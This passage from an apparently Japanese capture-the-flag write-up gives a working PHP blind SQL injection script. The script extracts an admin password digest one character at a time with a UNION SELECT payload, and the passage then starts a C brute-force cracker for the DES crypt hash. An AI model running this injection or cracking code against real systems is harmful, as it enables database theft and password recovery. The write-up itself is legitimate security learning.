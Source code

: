 ````
}

function search_digest_i($i, $min, $max) {
    static $name = NAME;
    $pivot = (int)(($min + $max) / 2);
    $chr = str_replace('\\', '\\\\', chr($pivot));
    $id = "' UNION SELECT 1 FROM admin WHERE name = '$name' AND SUBSTR(digest, $i, 1) <= '$chr' -- ";
    if ($min >= $max) {
        return check($id) ? chr($min) : die("[$i]: Not Found.\n");
    } elseif (check($id)) {
        return search_digest_i($i, $min, $pivot);
    } else {
        return search_digest_i($i, $pivot + 1, $max);
    }
}

echo 'Length: ' . ($l = search_length(1, 50)) . PHP_EOL;
echo 'Digest: ' . ($d = search_digest($l)) . PHP_EOL;
file_put_contents('answer_digest.txt', "$d\n");
```

実行すると，digestが13文字であること，およびその値が「samtVtCiNO2tY」であることがわかります。

----------------------------

C. DES Cracking

digestの生成ロジックに着目します。

```
crypt(md5_hex($password), $SALT)
```

以下のことがわかります。

- md5_hex($password) は /^[0-9a-z]{32}$/ で表現される

さらに，crypt関数はプラットフォームによって動作が変わる可能性がありますが，最も一般的なDESアルゴリズムが利用されると仮定します。すると，以下のことも決定されます。

- $SALT は「sa」である
- md5_hex($password) は /^[0-9a-z]{8}/ の部分だけ意味を持つ ( /[0-9a-z]{24}$/ の部分は任意の値でよい )

あとはC言語で殴ります。

```
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int main(void)
{
  const char *answer = "samtVtCiNO2tY";
  const char *salt = "sa";
  const char *chars = "0123456789abcdef";
  const int max = 16;
  char buf[9];

  for (int a = 0; a < max; ++a) {
  for (int b = 0; b < max; ++b) {
  for (int c = 0; c < max; ++c) {
    printf("checking: %c%c%c.....\n", chars[a], chars[b], chars[c]);
  for (int d = 0; d < max; ++d) {
  for (int e = 0; e < max; ++e) {
````